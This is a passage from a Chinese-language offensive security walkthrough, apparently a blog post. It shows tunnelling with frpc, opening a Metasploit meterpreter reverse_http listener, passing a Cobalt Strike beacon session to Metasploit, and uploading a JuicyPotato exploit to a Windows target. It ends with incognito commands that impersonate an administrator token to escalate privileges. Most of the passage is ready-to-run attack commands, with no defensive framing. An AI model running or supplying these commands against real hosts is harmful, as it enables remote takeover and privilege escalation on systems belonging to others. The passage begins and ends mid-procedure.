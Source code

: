 ```
./frpc -c frpc.ini
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170446-bb5a6ae0-48eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170446-bb5a6ae0-48eb-1.png)  
打开 msf 开启监听

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http 
set LHOST 127.0.0.1
set LPORT 9996
run
```

这里可以看到 MSF 已经开启监听了

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170519-cf242fe8-48eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170519-cf242fe8-48eb-1.png)

回到 CS, 右键选一个主机增加一个会话

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170550-e15ec51a-48eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170550-e15ec51a-48eb-1.png)

选择刚创建好的监听器, choose

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170614-f0205aaa-48eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170614-f0205aaa-48eb-1.png)

回到 msf,session 啪的一下就弹回来了, 很快啊

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170633-fb47fe42-48eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170633-fb47fe42-48eb-1.png)  
我们进 shell 看一下, 实际上就是接管了 CS 的 beacon, 依然是低权限

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170707-0f93df4c-48ec-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170707-0f93df4c-48ec-1.png)

0x04: 上传烂土豆 EXP 提权
------------------

在本地准备好一个烂土豆的 EXP(注意 windows 路径多加个斜杠, 虽然也可以不加, 但试了几台机子发现加了成功率高, 不知道什么原理)

```
upload /root/EXP/JuicyPotato/potato.exe C:\\Users\\Public
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170750-295a5334-48ec-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170750-295a5334-48ec-1.png)

CS 翻一下目标机器的文件, 发现成功上传

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170815-37ebfbaa-48ec-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170815-37ebfbaa-48ec-1.png)  
然后进目标机器的这个文件夹下开始准备提权

```
cd C:\\Users\\Public
use incognito
execute -cH -f ./potato.exe
list_tokens -u
复制administrator的令牌
impersonate_token "administrator的令牌"
```
